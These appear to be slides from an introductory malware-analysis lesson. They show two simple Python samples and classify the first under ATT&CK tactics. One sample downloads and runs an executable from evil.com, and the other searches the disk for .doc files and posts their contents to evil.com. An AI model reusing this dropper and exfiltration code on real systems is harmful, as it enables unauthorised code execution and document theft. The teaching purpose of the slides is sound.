 
---

::: title 
#### Baby's First Malware
:::
```python
import requests
import os
r = requests.get("https://evil.com/evil.exe")
if r.status_code == 200:
	out = "FreeCandy.exe"
	with open(out, "wb+") as f:
		f.write(r.content)
	os.system(out)
```

---

::: title 
#### Baby's First Malware
:::
- This code downloads and executes a binary
- Based on the URL, it is safe to assume that the content is probably malicious 
- Malware Classification: Probably a dropper
- Tactics:
	- Execution: 
		- Techniques: 
			- Command and Scripting Interpreter
				- Sub Techniques: 
					- Command and Scripting Interpreter: Python



---


::: title
#### Baby's Second Malware
:::
```python

import os, fnmatch, requests
def find(pattern, path):
    result = []
    for root, dirs, files in os.walk(path):
        for name in files:
            if fnmatch.fnmatch(name, pattern):
                result.append(os.path.join(root, name))
    return result
def upload(path):
	try:
		with open(path, "rb") as f:
			data = f.read()
		requests.post("https://evil.com/gate/php", data=data)
	except Exception as e:
		pass
	return
	
p = find('*.doc', '/')
for i in p:
	upload(p)
```

---